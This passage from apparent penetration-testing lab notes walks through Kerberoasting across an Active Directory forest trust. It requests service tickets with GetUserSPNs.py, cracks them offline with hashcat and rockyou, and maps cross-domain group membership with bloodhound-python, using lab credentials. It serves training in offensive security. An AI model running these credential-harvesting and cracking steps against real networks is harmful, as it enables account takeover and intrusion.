 
Rerunning the command with the `-request` flag added gives us the TGS ticket.

```shell-session
GetUserSPNs.py -request -target-domain $targetedDomain $OurDomain/$ourUserSamAccountName
# Example:
# GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
# Enter password: transporter@4
```

Now, with those TGS we could try to crack them offline

```bash
hashcat -m 13100 tickettocrack /usr/share/wordlists/rockyou.txt  
```


### 🐇 Hunting Foreign Group Membership with Bloodhound-python

we may, from time to time, see users or admins from one domain as members of a group in another domain.  Since only `Domain Local Groups` allow users from outside their forest, it is not uncommon to see a highly privileged user from Domain A as a member of the built-in administrators group in domain B when dealing with a bidirectional forest trust relationship.

 If we are testing from a Linux host, we can gather this information by using the [Python implementation of BloodHound](https://github.com/fox-it/BloodHound.py).

**Collecting information from INLANEFREIGHT.LOCAL**

```shell-session
sudo nano /etc/resolv.conf 
```

Modify the file so it will have the following entries:

```
#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain INLANEFREIGHT.LOCAL
nameserver 172.16.5.5
```

Running bloodhound-python Against INLANEFREIGHT.LOCAL:

```bash 
bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2
```

We can compress the resultant zip files to upload one single zip file directly into the BloodHound GUI.

```shell-session
zip -r ilfreight_bh.zip *.json
```


**Collecting information from INLANEFREIGHT.LOCAL**

```shell-session
sudo nano /etc/resolv.conf 
```
